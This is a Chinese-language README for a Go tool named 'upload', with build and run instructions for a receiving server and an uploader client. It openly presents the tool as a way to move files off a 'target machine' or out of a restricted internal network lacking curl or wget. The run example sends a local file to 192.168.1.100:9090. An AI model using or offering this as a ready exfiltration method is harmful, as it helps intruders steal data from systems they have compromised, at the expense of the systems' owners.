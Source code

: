 # upload
copyright by https://github.com/dear-cell/upload

# 使用场景
1. 在目标机器可以出网的情况下可以通过exe上传目标文件到服务器。
2. 在内网不出网的情况下，没有curl,wget命令,certutil不支持不安全的ssl证书下载。


## 使用教程

### 编译:

```cmd
go build -o server.exe load.go

go build -o upload.exe upload.go
```

当然如果服务器是linux也可以编译成二进制文件

```cmd
set GOOS=linux

set GOARCH=amd64
```

### 运行

server是服务端用来接收文件的

```
server.exe -p 9090
```

upload是用来上传文件的

```
upload.exe -u C:\Users\Desktop\1.txt -i 192.168.1.100 -p 9090
```

